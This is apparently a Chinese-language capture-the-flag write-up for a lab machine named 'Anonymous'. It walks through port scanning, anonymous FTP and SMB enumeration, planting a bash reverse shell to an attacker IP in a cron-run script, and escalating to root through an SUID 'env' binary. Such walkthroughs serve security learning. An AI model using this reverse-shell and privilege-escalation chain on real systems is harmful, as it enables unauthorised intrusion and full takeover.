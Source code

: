 ```yaml
---
weight: 999
title: "Anonymous"
description: ""
icon: "article"
date: "2025-06-08T15:14:30+08:00"
lastmod: "2025-06-08T15:14:30+08:00"
draft: false
toc: true
---
```


根据题目先扫端口
```
sudo nmap -p 1-5000 -sV -O -v 10.10.121.117
```
![](https://gitee.com/inklong/blog-pic/raw/master/images/20250608151610245.png)

能看见有ftp，ssh和smb

接着连接ftp
```shell
ftp 10.10.121.117
Anonymous
```
连接成功，找到三个文件，有一个sh文件

接着枚举smb
```shell
smbclient -L \\\\10.10.121.117
```
![](https://gitee.com/inklong/blog-pic/raw/master/images/20250608151610239.png)

有共享文件夹pic，访问
```shell
smbclient \\\\10.10.121.117\pics
```
只有图片

返回ftp，修改sh文件，弹shell
```sh
bash -i >& /dev/tcp/10.8.43.78/11451 0>&1
```
上传
```shell
append clean.sh
```
等待计划任务执行获得shell

之后提权，上传linpeas或者找suid都行
```shell
find / -perm -u=s -type f 2>/dev/null
```

两个都能发现env
```shell
env /bin/sh -p
```

提权成功
